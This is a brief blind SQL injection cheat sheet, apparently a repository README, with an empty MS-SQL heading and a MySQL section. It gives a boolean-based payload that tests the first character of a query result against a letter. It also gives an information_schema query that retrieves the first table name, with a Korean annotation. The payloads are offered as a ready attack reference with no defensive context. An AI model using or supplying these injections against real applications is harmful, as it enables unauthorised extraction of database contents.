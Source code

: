 # Blind_SQL_Injection
MS-SQL Injection


MySQL
???' and ascii(substring((query), 1, 1)) > 'a'#

Get Table Name
select table_name from information_schema.tables where table_type='base table' limit 0,1
                                                                                     ㄴ> 0번 째 테이블
